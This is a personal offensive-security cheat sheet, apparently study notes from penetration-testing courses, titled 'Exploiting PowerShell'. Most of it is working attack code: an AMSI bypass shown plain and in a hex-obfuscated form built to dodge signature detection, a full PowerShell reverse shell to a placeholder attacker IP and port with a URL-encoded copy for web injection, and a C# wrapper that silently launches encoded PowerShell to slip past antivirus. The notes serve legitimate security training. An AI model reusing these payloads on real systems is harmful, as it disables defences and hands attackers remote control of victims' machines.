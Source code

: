 # Exploiting PowerShell

* **author**:: Nathan Acks  
* **date**:: 2022-09-02

## Disable AMSI

Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts!).

One bypass for this:

```powershell
[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Note that AMSI uses a regular expression to trap all PowerShell commands that contain AMSI-function related strings, however. This can be bypassed by breaking up the above script into separate variables, or by doing fancy string encoding-and-reassembly tricks.

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

Be aware that AMSI bypasses are *per session*, not global!

* [2022-08-24 — OffSec Live: PEN-200 & AWS Deep Dive](../log/2022-08-24-offsec-live-pen-200-and-aws-deep-dive.md)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)
* [2022-08-26 — OffSec Live: PEN-200](../log/2022-08-26-offsec-live-pen-200.md)

## Pure PowerShell Reverse Shell

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>', <PORT>);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535 | %{0};
while (( $i = $stream.Read($bytes, 0, $bytes.Length) ) -ne 0) {
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
	$sendback = ( iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ( [text.encoding]::ASCII ).GetBytes($sendback2);
	$stream.Write($sendbyte, 0, $sendbyte.Length);
	$stream.Flush()
}
$client.Close()
```

URL-encoded version (uses `powershell -c "$CODE"`):

```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

Note that `<IP>` and `<PORT>` need to be appropriately replaced in the above code.

One annoying thing about this reverse shell… There's no initial prompt, so you have no idea whether you've connected or not. but as soon as you enter a command (`whoami`, etc.), a prompt will appear after the output. On the plus side, however, this reverse shell will persist even after the PHP script times out!

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)

### Relevant Tweet

[Powershell reverse shell back to netcat listener. netcat is not needed on the target box for this technique to work. (rootsecdev) (Twitter)](https://twitter.com/rootsecdev/status/1487612184498774019)

## Compile C# Programs to Bypass Anti Virus

C# can be used to bypass AV (at least as of September 2022) - just create a C# wrapper that fires up a PowerShell one-liner. (Sometimes this will need to be modified slightly to bypass AV, but generally you don't have to tweak this code much - C# analysis doesn't seem to be particularly robust for most AV products.)

```c#
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
```

This can be compiled using PowerShell - perhaps even on the target itself. What's the advantage to doing this? You can use Invoke-Mimikatz to run this binary remotely to quickly obtain a remote shell with the permissions of the user you're impersonating.

```powershell
$code = @"
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
"@
Add-Type -outputtype consoleapplication -outputassembly $BINARY_NAME -TypeDefinition $code -Language CSharp
```

* [2022-09-02 — OffSec Live: PEN-200](../log/2022-09-02-offsec-live-pen-200.md)
* [Using Mimikatz](mimikatz.md)
